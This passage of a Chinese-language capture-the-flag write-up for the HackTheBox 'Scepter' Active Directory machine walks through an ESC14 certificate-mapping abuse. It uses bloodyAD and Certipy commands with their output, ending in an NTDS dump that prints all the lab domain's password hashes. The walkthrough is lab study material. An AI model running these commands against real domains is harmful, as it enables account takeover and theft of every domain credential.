badPasswordTime                   : 01/01/1601 00:00:00 (424 years, 8 months ago)
lastLogoff                        : 1601-01-01 00:00:00+00:00
lastLogon                         : 01/11/2024 03:33:05 (10 months, 0 day ago)
logonHours                        : ////////////////////////////
pwdLastSet                        : 07/03/2025 22:19:11 (5 months, 24 days ago)
primaryGroupID                    : 513
objectSid                         : S-1-5-21-74879546-916818434-740295365-1108
accountExpires                    : 1601-01-01 00:00:00+00:00
logonCount                        : 3
sAMAccountName                    : h.brown
sAMAccountType                    : SAM_USER_OBJECT
userPrincipalName                 : h.brown@scepter.htb
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=scepter,DC=htb
altSecurityIdentities             : X509:<RFC822>h.brown@scepter.htb
dSCorePropagationData             : 11/01/2024 04:07:16 AM
                                    01/01/1601 00:00:01 AM
lastLogonTimestamp                : 01/11/2024 00:19:13 (10 months, 0 day ago)
vulnerabilities                   : [VULN-002] User account with password that never expires (LOW)

```
直到我找到了h.brown的这个属性altSecurityIdentities : X509:<RFC822>h.brown@scepter.htb

[ESC14](https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9)这篇文章描述了esc14的状况，类比我们现在的例子也就是当存在证书以h.brown@scepter.htb邮箱请求h.brown认证的时候，无论这个证书的dn归属，都能认证成功

首先通过组的全局掌控权限将a用户本身也具备对ou的全掌握权限
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ bloodyAD --host $ip -d scepter.htb -u $user1 -p $pass1 add genericAll "OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB" a.carter
[+] a.carter has now GenericAll on OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB
```
利用这权限修改其中d.baker的邮箱
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ bloodyAD --host $ip -d scepter.htb -u $user1 -p $pass1 set object d.baker mail -v h.brown@scepter.htb
[+] d.baker's mail has been updated
```
以d.baker身份请求证书
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ certipy req -username d.baker@scepter.htb -hashes :$hash -target dc01.scepter.htb -ca scepter-DC01-CA -template StaffAccessCertificate -dc-ip $ip
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 2
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'd.baker.pfx'
[*] Wrote certificate and private key to 'd.baker.pfx'
```
以这个证书去认证h.brown
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ certipy auth -pfx d.baker.pfx -dc-ip $ip -domain scepter.htb -username h.brown
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'h.brown@scepter.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'h.brown.ccache'
[*] Wrote credential cache to 'h.brown.ccache'
[*] Trying to retrieve NT hash for 'h.brown'
[*] Got hash for 'h.brown@scepter.htb': aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c
```
当设置altSecurityIdentities属性后，证书认证会变成弱匹配，只要证书属性中关于这个属性的值匹配一致，则允许认证

## 提权
此用户不允许ntlm认证，请求tgt登陆winrm之前看看猎犬



属于的组多，但是并没有发现有意思的

查看证书，也没有什么东西
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ certipy find -target $FQDN -u $user2@$domain -no-pass -k -vulnerable -stdout -dc-ip $ip
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Finding issuance policies
[*] Found 20 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'scepter-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'scepter-DC01-CA'
[*] Checking web enrollment for CA 'scepter-DC01-CA' @ 'dc01.scepter.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : scepter-DC01-CA
    DNS Name                            : dc01.scepter.htb
    Certificate Subject                 : CN=scepter-DC01-CA, DC=scepter, DC=htb
    Certificate Serial Number           : 716BFFE1BE1CD1A24010F3AD0E350340
    Certificate Validity Start          : 2024-10-31 22:24:19+00:00
    Certificate Validity End            : 2061-10-31 22:34:19+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SCEPTER.HTB\Administrators
      Access Rights
        ManageCa                        : SCEPTER.HTB\Administrators
                                          SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Enterprise Admins
        ManageCertificates              : SCEPTER.HTB\Administrators
                                          SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Enterprise Admins
        Enroll                          : SCEPTER.HTB\Authenticated Users
Certificate Templates                   : [!] Could not find any certificate templates
```
查看这个用户可写内容
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ bloodyAD --host $FQDN --dc-ip $ip -d $domain -u $user2 -k get writable --detail

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=scepter,DC=htb
url: WRITE
wWWHomePage: WRITE

distinguishedName: CN=h.brown,CN=Users,DC=scepter,DC=htb
thumbnailPhoto: WRITE
pager: WRITE
mobile: WRITE
homePhone: WRITE
userSMIMECertificate: WRITE
msDS-ExternalDirectoryObjectId: WRITE
msDS-cloudExtensionAttribute20: WRITE
msDS-cloudExtensionAttribute19: WRITE
msDS-cloudExtensionAttribute18: WRITE
msDS-cloudExtensionAttribute17: WRITE
msDS-cloudExtensionAttribute16: WRITE
msDS-cloudExtensionAttribute15: WRITE
msDS-cloudExtensionAttribute14: WRITE
msDS-cloudExtensionAttribute13: WRITE
msDS-cloudExtensionAttribute12: WRITE
msDS-cloudExtensionAttribute11: WRITE
msDS-cloudExtensionAttribute10: WRITE
msDS-cloudExtensionAttribute9: WRITE
msDS-cloudExtensionAttribute8: WRITE
msDS-cloudExtensionAttribute7: WRITE
msDS-cloudExtensionAttribute6: WRITE
msDS-cloudExtensionAttribute5: WRITE
msDS-cloudExtensionAttribute4: WRITE
msDS-cloudExtensionAttribute3: WRITE
msDS-cloudExtensionAttribute2: WRITE
msDS-cloudExtensionAttribute1: WRITE
msDS-GeoCoordinatesLongitude: WRITE
msDS-GeoCoordinatesLatitude: WRITE
msDS-GeoCoordinatesAltitude: WRITE
msDS-AllowedToActOnBehalfOfOtherIdentity: WRITE
msPKI-CredentialRoamingTokens: WRITE
msDS-FailedInteractiveLogonCountAtLastSuccessfulLogon: WRITE
msDS-FailedInteractiveLogonCount: WRITE
msDS-LastFailedInteractiveLogonTime: WRITE
msDS-LastSuccessfulInteractiveLogonTime: WRITE
msDS-SupportedEncryptionTypes: WRITE
msPKIAccountCredentials: WRITE
msPKIDPAPIMasterKeys: WRITE
msPKIRoamingTimeStamp: WRITE
mSMQDigests: WRITE
mSMQSignCertificates: WRITE
userSharedFolderOther: WRITE
userSharedFolder: WRITE
url: WRITE
otherIpPhone: WRITE
ipPhone: WRITE
assistant: WRITE
primaryInternationalISDNNumber: WRITE
primaryTelexNumber: WRITE
otherMobile: WRITE
otherFacsimileTelephoneNumber: WRITE
userCert: WRITE
homePostalAddress: WRITE
personalTitle: WRITE
wWWHomePage: WRITE
otherHomePhone: WRITE
streetAddress: WRITE
otherPager: WRITE
info: WRITE
otherTelephone: WRITE
userCertificate: WRITE
preferredDeliveryMethod: WRITE
registeredAddress: WRITE
internationalISDNNumber: WRITE
x121Address: WRITE
facsimileTelephoneNumber: WRITE
teletexTerminalIdentifier: WRITE
telexNumber: WRITE
telephoneNumber: WRITE
physicalDeliveryOfficeName: WRITE
postOfficeBox: WRITE
postalCode: WRITE
postalAddress: WRITE
street: WRITE
st: WRITE
l: WRITE
c: WRITE

distinguishedName: CN=p.adams,OU=Helpdesk Enrollment Certificate,DC=scepter,DC=htb
altSecurityIdentities: WRITE

```
这个p.adams用户能打dcsync



很明了了，能写altSecurityIdentities就意味着能重新打一次esc14

查看一下这个用户是否存在altSecurityIdentities
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ bloodyAD --host $FQDN -d scepter.htb -k get object p.adams --attr altSecurityIdentities 
distinguishedName: CN=p.adams,OU=Helpdesk Enrollment Certificate,DC=scepter,DC=htb

```
不存在，给它写一个，注意这里其实能随意写，只要后面能正常对应就行

```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ bloodyAD --host $FQDN -d $domain -k set object p.adams altSecurityIdentities -v 'X509:<RFC822>wackymaker@scepter.htb'
[+] p.adams's altSecurityIdentities has been updated
```
之后和之前一样的打法

因为环境恢复脚本的原因,前面的部分操作我需要重复操作
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ bloodyAD --host $ip -d scepter.htb -u $user1 -p $pass1 add genericAll "OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB" a.carter
[+] a.carter has now GenericAll on OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ bloodyAD --host $FQDN -d $domain -k set object p.adams altSecurityIdentities -v 'X509:<RFC822>wackymaker@scepter.htb'
[+] p.adams's altSecurityIdentities has been updated

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ bloodyAD --host $ip -d scepter.htb -u $user1 -p $pass1 set object d.baker mail -v wackymaker@scepter.htb
[+] d.baker's mail has been updated

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ certipy req -username d.baker@scepter.htb -hashes :$hash -target dc01.scepter.htb -ca scepter-DC01-CA -template StaffAccessCertificate -dc-ip $ip
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 4
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'd.baker.pfx'
[*] Wrote certificate and private key to 'd.baker.pfx'

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ certipy auth -pfx d.baker.pfx -dc-ip $ip -domain scepter.htb -username p.adams
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'p.adams@scepter.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'p.adams.ccache'
[*] Wrote credential cache to 'p.adams.ccache'
[*] Trying to retrieve NT hash for 'p.adams'
[*] Got hash for 'p.adams@scepter.htb': aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0
```
成功获取管理权限
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ nxc smb -dc-ip $ip -u p.adams -H 1b925c524f447bb821a8789c4b118ce0 --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] y
SMB         10.129.103.0    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domin:scepter.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.103.0    445    DC01             [+] c-ip\p.adams:1b925c524f447bb821a8789c4b118ce0 
SMB         10.129.103.0    445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         10.129.103.0    445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.103.0    445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:a291ead3493f9773dc615e66c2ea21c4:::
SMB         10.129.103.0    445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.103.0    445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c030fca580038cc8b1100ee37064a4a9:::
SMB         10.129.103.0    445    DC01             scepter.htb\d.baker:1106:aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce:::
SMB         10.129.103.0    445    DC01             scepter.htb\a.carter:1107:aad3b435b51404eeaad3b435b51404ee:656d231c131a8f1ea8fd1138b8185674:::
SMB         10.129.103.0    445    DC01             scepter.htb\h.brown:1108:aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c:::
SMB         10.129.103.0    445    DC01             scepter.htb\p.adams:1109:aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0:::
SMB         10.129.103.0    445    DC01             scepter.htb\e.lewis:2101:aad3b435b51404eeaad3b435b51404ee:628bf1914e9efe3ef3a7a6e7136f60f3:::
SMB         10.129.103.0    445    DC01             scepter.htb\o.scott:2102:aad3b435b51404eeaad3b435b51404ee:3a4a844d2175c90f7a48e77fa92fce04:::
SMB         10.129.103.0    445    DC01             scepter.htb\M.clark:2103:aad3b435b51404eeaad3b435b51404ee:8db1c7370a5e33541985b508ffa24ce5:::
SMB         10.129.103.0    445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:0a4643c21fd6a17229b18ba639ccfd5f:::
SMB         10.129.103.0    445    DC01             [+] Dumped 11 NTDS hashes to /home/wackymaker/.nxc/logs/ntds/10.129.103.0_None_2025-09-01_163758.ntds of which 10 were added to the database
SMB         10.129.103.0    445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.129.103.0    445    DC01             [*] cat /home/wackymaker/.nxc/logs/ntds/10.129.103.0_None_2025-09-01_163758.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.129.103.0    445    DC01             [*] grep -iv disabled /home/wackymaker/.nxc/logs/ntds/10.129.103.0_None_2025-09-01_163758.ntds | cut -d ':' -f1


```
登陆就能拿到flag了，我今天赶时间去网吧，文章就写到这里